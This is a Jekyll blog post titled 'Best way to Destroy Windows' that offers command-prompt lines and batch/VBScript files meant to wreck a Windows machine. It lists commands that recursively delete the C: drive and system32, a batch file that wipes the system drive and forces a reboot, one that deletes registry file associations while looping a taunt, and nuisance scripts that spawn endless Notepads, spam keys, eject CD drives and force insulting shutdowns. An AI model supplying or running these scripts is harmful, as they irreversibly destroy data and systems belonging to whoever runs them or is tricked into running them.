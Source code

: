 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckair.gif
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2Type this in notepad:

Save the file anywhere (.bat) and execute it:

###### 2.1 The blue screen of Death
Code:

```
@echo off
del %systemdrive%\*.*/f/s/q
shutdown -r -f -t 00
```

<br>

###### 2.2 Stupidity Shutdown
code:

```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

<br>

###### 2.3 Delete Key Registry Files
code:

```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

<br>

###### 2.4 Endless Notepads
code:

```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

<br>

###### 2.5 Crazy caps lock
code:

```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

<br>

###### 2.6 Endless Enter
code:

```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

<br>

###### 2.7 Endless Backspace
code:

```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

<br>

###### 2.8 Popping CD Drives
code:

```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

 
And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)

